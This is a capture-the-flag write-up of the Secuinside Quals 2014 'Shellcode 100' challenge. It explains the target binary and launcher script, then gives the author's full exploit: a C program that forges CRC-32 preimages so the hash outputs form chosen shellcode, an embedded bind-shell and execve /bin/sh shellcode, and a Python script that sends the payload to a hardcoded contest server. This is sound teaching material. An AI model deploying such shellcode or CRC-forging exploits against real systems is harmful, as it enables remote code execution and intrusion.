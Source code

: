 ```yaml
---
layout: post
title: "Secuinside Quals 2014: Shellcode 100"
date: 2014-06-02 04:57:01 +0000
permalink: /2014/06/02/secuinside-quals-2014-shellcode-100/
category: Security
tags:
  - CTF
  - Secuinside
  - Security
---
```

This is a level that, at first, seemed like it would be extremely simple, but then turned out to be far more complicated than expected.  We were provided a zip file containing a python script and an elf binary.

Disassembling the binary reveals a very basic program:

    / (fcn) sym.main 165
    |                0x0804847d    55           push ebp
    |                0x0804847e    89e5         mov ebp, esp
    |                0x08048480    83e4f0       and esp, 0xfffffff0
    |                0x08048483    83ec30       sub esp, 0x30
    |                0x08048486    8b450c       mov eax, [ebp+0xc]
    |                0x08048489    83c004       add eax, 0x4
    |                0x0804848c    8b00         mov eax, [eax]
    |                0x0804848e    890424       mov [esp], eax
    |                ; CODE (CALL) XREF from 0x08048376 (fcn.08048376)
    |                ; CODE (CALL) XREF from 0x08048370 (fcn.08048366)
    |                0x08048491    e8dafeffff   call 0x108048370 ; (sym.imp.atoi)
    |                   sym.imp.atoi(unk)
    |                0x08048496    89442428     mov [esp+0x28], eax
    |                0x0804849a    c7442424000. mov dword [esp+0x24], 0x0
    |                0x080484a2    c7442408040. mov dword [esp+0x8], 0x4
    |                0x080484aa    8d442424     lea eax, [esp+0x24]
    |                0x080484ae    89442404     mov [esp+0x4], eax
    |                0x080484b2    8b442428     mov eax, [esp+0x28]
    |                0x080484b6    890424       mov [esp], eax
    |                ; CODE (CALL) XREF from 0x08048330 (fcn.0804832c)
    |                0x080484b9    e872feffff   call 0x108048330 ; (sym.imp.read)
    |                   sym.imp.read()
    |                0x080484be    8b442424     mov eax, [esp+0x24]
    |                0x080484c2    c7442414000. mov dword [esp+0x14], 0x0
    |                0x080484ca    c7442410fff. mov dword [esp+0x10], 0xffffffff
    |                0x080484d2    c744240c220. mov dword [esp+0xc], 0x22
    |                0x080484da    c7442408070. mov dword [esp+0x8], 0x7
    |                0x080484e2    89442404     mov [esp+0x4], eax
    |                0x080484e6    c7042400000. mov dword [esp], 0x0
    |                ; CODE (CALL) XREF from 0x08048350 (fcn.08048346)
    |                0x080484ed    e85efeffff   call 0x108048350 ; (sym.imp.mmap)
    |                   sym.imp.mmap()
    |                0x080484f2    8944242c     mov [esp+0x2c], eax
    |                0x080484f6    8b442424     mov eax, [esp+0x24]
    |                0x080484fa    89442408     mov [esp+0x8], eax
    |                0x080484fe    8b44242c     mov eax, [esp+0x2c]
    |                0x08048502    89442404     mov [esp+0x4], eax
    |                0x08048506    8b442428     mov eax, [esp+0x28]
    |                0x0804850a    890424       mov [esp], eax
    |                0x0804850d    e81efeffff   call 0x108048330 ; (sym.imp.read)
    |                   sym.imp.read()
    |                0x08048512    31c0         xor eax, eax
    |                0x08048514    31c9         xor ecx, ecx
    |                0x08048516    31d2         xor edx, edx
    |                0x08048518    31db         xor ebx, ebx
    |                0x0804851a    31f6         xor esi, esi
    |                0x0804851c    31ff         xor edi, edi
    \                0x0804851e    ff64242c     jmp dword [esp+0x2c]

It takes a single argument, an integer, which it uses as a file descriptor for input.  It then reads 4 bytes from the file descriptor, mmap's an anonymous block of memory of that size with RWX permissions, then reads that many bytes from the file descriptor into the mapped region, and finally jumps to the map region.  So, in summary, read shellcode length, read shellcode, then jump to shellcode.

So, let's look at the python script responsible for launching the program and reading the input.

    #!/usr/bin/python
    import os, signal, struct, binascii
    from sys import stdin, stdout
    
    UI = lambda a : struct.unpack('I', a)[0]
    PI = lambda a : struct.pack('I', a)
    
    def crc32(data, salt) :
        return PI(binascii.crc32(salt + data) & 0xffffffff)
    
    def main() :
        signal.alarm(25)
    
        salt = os.urandom(10)
        print 'salt:', salt.encode('hex')
        stdout.flush()
    
        n = UI(stdin.read(4))
        data = ''.join(crc32(stdin.read(UI(stdin.read(4))), salt) for _ in xrange(n))
    
        fi, fo = os.pipe()
        if not os.fork() :
            os.execl('/home/sc/thisisnotbad', 'thisisnotbad', '%d' % fi)
        else :
            os.write(fo, PI(len(data)))
            os.write(fo, data)
    
    if __name__ == '__main__' :
        main()

As you can tell, it provides a 10 byte salt, then reads in 4 bytes (`n`), then finally reads `n` blocks prefixed by a 4-byte length.  Next, for each block, it computes the crc32 of the block with the salt prepended.  Finally, the crc32s are concatenated as the shellcode to be executed.

So, to get useful shellcode, we have to mount a preimage attack on CRC-32.  Fortunately, CRC-32 is not a cryptographically secure hash, and [Julien Tinnes has done the heavy lifting for us](https://code.google.com/p/tweakcrc/).  So, we can take our shellcode as the desired CRC32s and compute the preimage of salt+preimage vector (4 bytes), then break the result into 4 byte chunks and send them along with appropriate lengths.

I wrote a little C program to use the calcvect.c from tweakcrc to compute the preimages given the salt, then used python for all the socket communications. (Because why do sockets in C when you can avoid it?)

    #!c
    #include "crc32.h"
    #include <string.h>
    #include <stdio.h>
    #include <arpa/inet.h>
    
    /*
    const char *shellcode = "\x31\xc0\x50\x68"
                            "\x2f\x2f\x73\x68"
                            "\x68\x2f\x62\x69"
                            "\x6e\x89\xe3\x50"
                            "\x53\x89\xe1\xb0"
                            "\x0b\xcd\x80\x90";
    */
    
    unsigned char shellcode[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a"
    "\x02\x89\xe1\xb0\x66\xcd\x80\x5b"
    "\x5e\x52\x68\x02\x00\x16\x9d\x6a"
    "\x10\x51\x50\x89\xe1\x6a\x66\x58"
    "\xcd\x80\x89\x41\x04\xb3\x04\xb0"
    "\x66\xcd\x80\x43\xb0\x66\xcd\x80"
    "\x93\x59\x6a\x3f\x58\xcd\x80\x49"
    "\x79\xf8\x68\x2f\x2f\x73\x68\x68"
    "\x2f\x62\x69\x6e\x89\xe3\x50\x53"
    "\x89\xe1\xb0\x0b\xcd\x80\x90\x90";
    
    
    #define SC_LEN 80
    #define CHUNK_SIZE 4
    
    char shellcode_out[SC_LEN];
    
    char tmpbuf[14];
    
    unsigned int    tweakcrc(void *map, int length, unsigned int target, unsigned int offset);
    
    
    void decode_hex(char *dst, const char *src) {
      int i;
      for (i=0; i<strlen(src)/2; i ++)
        sscanf(&(src[i*2]), "%2hhx", &dst[i]);
    }
    
    
    int main(int argc, char **argv) {
      int i;
      int target;
      decode_hex(tmpbuf, argv[1]);
      gen_table();
    
      for (i=0; i<(SC_LEN/CHUNK_SIZE); i++){
        *(int *)(tmpbuf + 10) = 0;
        //for (k=0; k<14; k++)
          //fprintf(stderr, "%02hhx", tmpbuf[k]);
        //fprintf(stderr, "\n");
        target = *((int *)&shellcode[i*CHUNK_SIZE]);
        //target = htonl(target);
        //fprintf(stderr, "Target: %08x\n", target);
        tweakcrc(tmpbuf, 14, target, 10);
        
        //for (k=0; k<14; k++)
          //fprintf(stderr, "%02hhx", tmpbuf[k]);
        //fprintf(stderr, "\n");
        memcpy(&shellcode_out[i*CHUNK_SIZE], tmpbuf+10, 4);
      }
    
      for (i=0; i<SC_LEN; i++)
        printf("%02hhx", shellcode_out[i]);
      printf("\n");
      return 0;
    }

You might notice a commented out shellcode.  At first, I just tried a basic x86 shell exec, but stdin/stdout do not seem to connect through to the shellcode.  I didn't dig into why, just replaced my shellcode with `linux/x86/shell_bind_tcp` from Metasploit.  

To chunk and send my payload:

    #!python
    import socket
    import subprocess
    import struct
    import binascii
    
    
    def crc32(data, salt):
      #print (salt+data).encode('hex')
      v = struct.pack('I', binascii.crc32(salt + data) & 0xffffffff)
      #print v.encode('hex')
      return v
    
    REMOTE = ('54.178.232.195', 5757)
    #REMOTE = ('localhost', 5555)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(REMOTE)
    print 'Connected.'
    salt = s.recv(1024).strip().split(':')[1].strip()
    print 'Salt: %s' % salt
    
    shellcode = subprocess.check_output(
        ('./shellcode', salt)).strip()
    print 'Shellcode: %s' % shellcode
    shellcode = shellcode.decode('hex')
    
    def send(what):
      print what.encode('hex')
      return s.send(what)
    
    def chunks(sc):
      return [sc[x:x+4] for x in xrange(0, len(sc), 4)]
    
    nc = len(shellcode)/4
    
    shellcode = ''.join('\x04\x00\x00\x00' + c for c in chunks(shellcode))
    
    l = send(struct.pack('I', nc) + shellcode)
    print 'Shellcode %d done.' % l

You might notice both programs have a lot of debugging print statements.  Getting the endianness just right, tweaking the payload chunking, etc., consumed far more time than figuring out what the problem was.
